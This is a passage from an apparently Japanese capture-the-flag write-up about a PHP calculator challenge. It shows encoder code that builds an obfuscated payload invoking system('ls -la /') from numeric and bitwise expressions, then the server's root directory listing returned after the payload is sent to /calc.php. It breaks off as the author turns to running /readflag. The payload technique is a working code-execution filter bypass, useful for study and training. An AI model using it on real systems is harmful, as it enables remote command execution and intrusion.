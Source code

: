 ```php

// yay
$payload = '(' . encode($table, 'system') . ')(' . encode($table, 'ls -la /') . ')';
$len = strlen($payload);
echo "length: {$len}\n$payload\n";
```

```
$ php encode.php
length: 844
((((((2).(0)){0})|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((8).(0)){0})|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((2).(0)){0})|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((0).(0)){0})|(((((10**19).(0)){3})&(((~((1).(0)){0}).(0)){0}))))).(((((10**19).(0)){3})|(((((0).(0)){0})&(((~1).(0)){0}))))).(((((~1).(0)){0})|(((10**19).(0)){3}))))((((((((0).(0)){0})|(((~((1).(0)){0}).(0)){0})))&(((((~1).(0)){0})|(((10**19).(0)){3}))))).(((((2).(0)){0})|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((0).(0)){0})&(((~1).(0)){0}))).(((~1).(0)){0}).(((((((0).(0)){0})|(((~((1).(0)){0}).(0)){0})))&(((((~1).(0)){0})|(((10**19).(0)){3}))))).(((((((0).(0)){0})&(((~1).(0)){0})))|(((((10**19).(0)){3})&(((~((4).(0)){0}).(0)){0}))))).(((((0).(0)){0})&(((~1).(0)){0}))).(((((~1).(0)){0})|(((0.1).(0)){1}))))
```

これを `/calc.php` に投げると、以下のような結果が返ってきました。

```
total 112
drwxr-xr-x   1 root root  4096 May 30 11:51 .
drwxr-xr-x   1 root root  4096 May 30 11:51 ..
-rwxr-xr-x   1 root root     0 May 30 04:20 .dockerenv
drwxr-xr-x   1 root root  4096 May 30 12:19 bin
drwxr-xr-x   2 root root  4096 May  2 16:39 boot
drwxr-xr-x   5 root root   340 May 30 04:20 dev
drwxr-xr-x   1 root root  4096 May 30 12:19 etc
-r--------   1 root root    38 May 28 09:29 flag
drwxr-xr-x   2 root root  4096 May  2 16:39 home
drwxr-xr-x   1 root root  4096 May 15 12:49 lib
drwxr-xr-x   2 root root  4096 May 14 14:50 lib64
drwxr-xr-x   2 root root  4096 May 14 14:50 media
drwxr-xr-x   2 root root  4096 May 14 14:50 mnt
drwxr-xr-x   2 root root  4096 May 14 14:50 opt
dr-xr-xr-x 120 root root     0 May 30 04:20 proc
-r-sr-sr-x   1 root root 13144 May 28 09:29 readflag
drwx------   1 root root  4096 May 30 13:31 root
drwxr-xr-x   1 root root  4096 May 30 12:22 run
drwxr-xr-x   1 root root  4096 May 15 12:49 sbin
drwxr-xr-x   2 root root  4096 May 14 14:50 srv
dr-xr-xr-x  13 root root     0 May 28 09:39 sys
drwxrwxrwx   2 root root  4096 May 31 20:55 tmp
drwxr-xr-x   1 root root  4096 May 14 14:50 usr
drwxr-xr-x   1 root root  4096 May 15 12:41 var
drwxr-xr-x   1 root root  4096 May 15 12:41 var
```

`/readflag` を実行すればフラグが降ってきそうです。実行させるコマンドを `ls -la /` から `/readflag` に変えると、以下のような結果が返ってきました。
